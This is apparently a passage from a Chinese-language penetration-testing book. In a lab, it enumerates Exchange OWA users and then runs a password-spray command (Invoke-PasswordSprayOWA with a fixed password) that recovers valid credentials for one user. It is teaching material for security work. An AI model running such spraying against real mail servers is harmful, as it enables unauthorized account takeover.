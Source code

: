 ![图 1.7 – 使用 OWA 成功进行用户枚举](img/B18964_01_07.jpg)

图 1.7 – 使用 OWA 成功进行用户枚举

我们成功找到两个用户——`Administrator`和`vinegrep`。现在，让我们对 OWA 执行密码喷射攻击。在这个场景中，工具会针对提供的用户名列表喷射一个密码：

```
Invoke-PasswordSprayOWA -ExchHostname 192.168.56.106 -UserList .\found.txt -Password Qwerty123! -OutFile creds.txt
```

我们成功获取了用户`vinegrep`的有效凭证集：

![图 1.8 – 找到有效的凭证集，用户为 vinegrep](img/B18964_01_08.jpg)
